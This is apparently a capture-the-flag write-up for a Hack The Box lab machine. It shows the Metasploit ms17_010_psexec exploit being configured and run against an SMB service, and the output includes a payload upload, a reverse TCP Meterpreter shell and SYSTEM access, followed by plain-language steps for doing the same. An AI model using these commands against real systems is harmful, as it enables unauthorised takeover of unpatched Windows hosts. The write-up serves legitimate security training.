 ```
   --  ----
   0   Automatic

msf6 exploit(windows/smb/ms17_010_psexec) > set lhost 10.10.14.36
lhost => 10.10.14.36
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x81a8e168
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... zZKBrhbC.exe
[*] 10.10.10.4:445 - Created \zZKBrhbC.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \zZKBrhbC.exe...
[*] Meterpreter session 1 opened (10.10.14.36:4444 -> 10.10.10.4:1031) at 2021-05-23 09:36:32 -0700

meterpreter >
```

And just like that we have a SYSTEM session. SYSTEM is the highest privileged session we can have on a Windows workstation. But I'm going to break down what exactly I entered in to get this SYSTEM session

First, you can simply type `msfconsole` in your terminal to get access to the Metasploit Framework. From here I needed to search for the `ms17-010` vulnerability within Metasploit Framework to see if they have modules I can use to exploit this vulnerability. To do this, you can type in `search [exploit_name]` to find the exploit you are searching for and see if it is present. For me, this was `search ms17-010`. The one that worked the best for me was: `2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 `. Now that we know the module exists, to use this module you are going to use the path that it provides. This would be `exploit/windows/smb/ms17_010_psexec`. 

&nbsp;

With that done, the only thing left to do is configure the module. To configure the module and see what values it needs to run, simply execute the `options` command. For this module, everything was already set in stone for the most part, the only thing that we needed to change was the `LHOST` and the `RHOST`. LHOST stands for local host, aka, your IP address. So this is going to be your HTB VPN IP address. Then there is RHOST, which stands for remote host. This is going to be the IP address of our target, so `10.10.10.4`. To enter in these values into the module, simply type the name and then an argument. For example: `RHOST 10.10.10.4`. This will set the RHOST as 10.10.10.4. All you need to do is set LHOST as well in a similar fashion and everything should be set. Now you can execute the `exploit` command and then get a shell! Easy as that.
